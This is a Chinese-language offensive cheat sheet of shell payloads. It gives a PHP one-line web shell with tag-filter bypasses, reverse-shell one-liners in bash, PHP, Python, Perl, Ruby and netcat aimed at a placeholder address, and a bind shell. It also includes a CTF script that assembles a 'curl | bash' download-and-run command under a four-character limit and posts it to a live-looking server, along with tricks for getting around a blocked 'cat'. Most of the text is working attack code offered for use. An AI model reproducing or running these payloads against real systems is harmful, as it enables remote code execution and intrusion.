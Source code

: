 # Shell

## 几种特殊符号

1. 反引号 `` ` ``
2. 文件重定向符 `` > <``
3. 环境变量 ``${}``

## PHP

一句话：

```php
<?php eval($_REQUEST['eki']);?>
```

``eval``也可以改成``system、assert``

### Bypass:

1. 当仅禁用``<?php``时，可以使用``<?    ?> ``
    
   要求：需要开启短标签开关，``short_open_tag``

2. 当禁用``<?php``以及``?>``时，还可以使用``<?=``不需要闭合标签 
    
    要求：PHP版本>PHP 5.4.0

3. 禁用了``<?、 <?php、 ?>``时，可以使用asp标签``<%  %>``

    要求：asp_tags设成On


4. ``<script language="php">system($_REQUEST['eki']);</script>`` 
   
    等价于``<?php system($_REQUEST['eki']);?>``

    要求：php7之前

命令行反弹Shell

```bash
php -r '$sock=fsockopen("127.0.0.1",2333);exec("/bin/sh -i <&3 >&3 2>&3");
```

## BASH

```bash
bash -i >& /dev/tcp/127.0.0.1/233 0>&1
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Perl

```perl
perl -e 'use Socket;$i="127.0.0.1";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",233).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```bash
nc -e /bin/sh 127.0.0.1 2333
```

正向弹

靶机：
```bash
nc -lvvp 2333 -e /bin/bash
```

攻击机
```
nc ip 2333
```
## 获取Bash交互行

```
python -c "import pty;pty.spawn('/bin/bash')"
```

## 字符限制绕过

以hackme为例
```python
import requests
from time import sleep
from urllib import quote
import base64

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl <IPHEX> | ba sh;"
    # 
    '>\;',  
    '>sh\\',
    '>ba\\', 
    '>\|\\',
    '>XX\\', 
    '>XX\\', 
    '>XX\\', 
    '>XX\\',
    '>0x\\',
    '>\ \\', 
    '>rl\\',
    '>cu\\',

    'sh x', 
    'sh g',
]


for i in payload:
    assert len(i) <= 4
    header ={
        "User-Agent":"Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36",
        "Cookie":"PHPSESSID=1af6e5b03d0df7c07ae2e548bd44183c"
    }
    data ={
        "url":"compress.zlib://data:@127.0.0.1/plain;base64,"+base64.b64encode(i)
    }
    r = requests.post(url='http://121.36.222.22:88/core/index.php',data=data,headers=header)
    print r.text
    print i
    sleep(0.1)
```

## 绕过cat

1. ``\``
2. ``rev,more``
3. ``tac``